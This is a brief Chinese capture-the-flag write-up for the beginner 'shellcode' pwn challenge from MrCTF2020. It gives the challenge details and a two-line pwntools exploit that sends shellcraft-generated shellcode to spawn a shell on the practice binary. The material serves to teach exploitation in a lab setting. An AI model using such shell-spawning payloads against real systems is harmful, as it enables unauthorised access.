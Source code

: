 
## shellcode
- 题目描述：
    
    > zaima, 有人想试试你的shell麦吉克
- 题目附件：[shellcode](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MrCTF2020/pwn/shellcode/shellcode)
- 考察点：shellcode
- 难度：入门
- 初始分值：500
- 最终分值：120
- 完成人数：47

### 程序分析
没啥好分析的，输入shellcode即可。

### exp
```python
payload = asm(shellcraft.sh())
sl(payload)
```

